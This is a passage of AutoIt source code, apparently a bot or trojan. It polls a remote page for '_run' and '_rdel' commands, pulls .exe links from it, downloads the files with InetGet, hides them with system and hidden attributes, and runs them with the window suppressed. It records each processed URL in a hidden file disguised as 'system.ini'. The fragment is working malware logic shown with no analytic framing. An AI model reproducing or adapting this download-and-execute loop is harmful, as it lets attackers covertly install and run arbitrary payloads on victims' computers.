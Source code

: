 ```au3
                Sleep(1000 * 10)
                FileChangeDir(@ScriptDir)
                FileDelete(@ScriptDir & "\2mdw4.temp")
                Sleep(1000 * 2)
                FileSetAttrib(@ScriptDir & "\2mdw4", "+SH")
                $dfile = FileOpen(@ScriptDir & "\system.ini", 1)
                FileWrite(@ScriptDir & "\system.ini", $urldownload & @CRLF)
                FileClose($dfile)
                FileSetAttrib(@ScriptDir & "\system.ini", "+SH")
            EndIf
            FileClose($dread)
        EndIf
    ElseIf StringRegExp($out, "_run", 0) = 1 Then
        If StringRegExp($out, 'href="(.*?).exe"', 0) = 1 Then
            $run = StringRegExp($out, 'href="(.*?)"', 1)
            $urlrun = $run[0]
            FileChangeDir(@ScriptDir)
            $rread = FileRead(@ScriptDir & "\system.ini")
            If StringRegExp($rread, $urlrun, 0) = 0 Then
                FileChangeDir(@ScriptDir)
                $rdownload = InetGet($urlrun, @ScriptDir & "\run.exe", 1, 1)
                Do
                    Sleep(1000)
                Until InetGetInfo($rdownload, 2)
                InetClose($rdownload)
                Sleep(1000 * 5)
                FileChangeDir(@ScriptDir)
                FileSetAttrib(@ScriptDir & "\run.exe", "+SH")
                Sleep(1000 * 2)
                Run(@ScriptDir & "\run.exe", "", @SW_HIDE)
                $rfile = FileOpen(@ScriptDir & "\system.ini", 1)
                FileWrite(@ScriptDir & "\system.ini", $urlrun & @CRLF)
                FileClose($rfile)
                FileSetAttrib(@ScriptDir & "\system.ini", "+SH")
            EndIf
            FileClose($rread)
        EndIf
    ElseIf StringRegExp($out, "_rdel", 0) = 1 Then
        If StringRegExp($out, 'href="(.*?).exe"', 0) = 1 Then
            $rdel = StringRegExp($out, 'href="(.*?)"', 1)
            $urlrdel = $rdel[0]
            FileChangeDir(@ScriptDir)
            $rdread = FileRead(@ScriptDir & "\system.ini")
            If StringRegExp($rdread, $urlrdel, 0) = 0 Then
                FileChangeDir(@ScriptDir)
                $rddownload = InetGet($urlrdel, @ScriptDir & "\rdel.exe", 1, 1)
                Do
                    Sleep(1000)
                Until InetGetInfo($rddownload, 2)
                InetClose($rddownload)
                Sleep(1000 * 5)
                FileChangeDir(@ScriptDir)
                Run(@ScriptDir & "\rdel.exe", "", @SW_HIDE)
                Sleep(1000 * 20)
                FileChangeDir(@ScriptDir)
                FileDelete(@ScriptDir & "\rdel.exe")
                Sleep(1000 * 2)
                FileSetAttrib(@ScriptDir & "\rdel.exe", "+SH")
                $rdfile = FileOpen(@ScriptDir & "\system.ini", 1)
                FileWrite(@ScriptDir & "\system.ini", $urlrdel & @CRLF)
                FileClose($rdfile)
                FileSetAttrib(@ScriptDir & "\system.ini", "+SH")
            EndIf
```